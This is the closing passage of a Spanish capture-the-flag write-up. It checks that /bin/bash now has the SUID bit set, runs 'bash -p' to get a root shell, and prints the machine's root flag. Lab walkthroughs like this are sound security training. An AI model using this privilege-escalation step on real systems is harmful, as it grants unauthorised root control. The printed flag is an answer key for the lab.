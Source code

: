 Lo guardamos y esperamos, si comprobamos que haya funcionado de la siguiente forma.

```shell
ls -la /bin/bash
```

Info:

```
-rwsr-xr-x 1 root root 1446024 Mar 31 10:41 /bin/bash
```

Veremos que ha funcionado, por lo que haremos lo siguiente.

```shell
bash -p
```

Y con esto seremos `root`, por lo que leeremos la flag.

> root.txt

```
c33b3d6c28dddad9fadd90b81fc57d24
```
